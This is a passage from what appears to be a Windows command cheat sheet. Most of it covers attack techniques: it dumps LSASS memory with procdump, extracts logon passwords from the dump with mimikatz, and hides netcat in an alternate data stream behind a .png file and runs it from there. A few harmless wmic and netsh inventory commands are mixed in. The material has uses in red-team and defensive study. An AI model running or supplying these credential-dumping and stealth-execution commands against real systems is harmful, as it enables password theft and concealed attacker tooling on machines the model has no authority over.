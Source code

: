 ```
C:\> streams -s .
```

### Use `procdump` to obtain the `lsass` process memory. 

**Use `mimikatz` `minidump` to get passwords**

```
C:\> procdump -accepteula -ma lsass.exe mini.dmp
```

### Run `mimikatz` in `minidump` mode & use `mini.dmp` from `procdump`

```
mimikatz # sekurlsa::minidump mini.dmp
mimikatz # sekurlsa::logonPasswords
```	

### Get list of startup programs using wmic

```
C:\> wmic startup list full
```

### Add a binary to an Alternate Data Stream

```
C:\> type c:\tools\nc.exe > c:\nice.png:nc.exe
```
Execute it (XP/2K3):

```
C:\> start c:\nice.png:nc.exe
```

### Execute a binary Alternate Data Stream Win 7/2008 using wmic

```
C:\> wmic process call create C:\nice.png:nc.exe
```

### Show config & state info for Network Access Protection enabled client

https://technet.microsoft.com/en-us/library/cc730902(v=ws.10).aspx

```
C:\> netsh nap client show configuration
```

### Get computer system information, including domain name and memory, using wmic

```
C:\> wmic computersystem list /format:csv
```
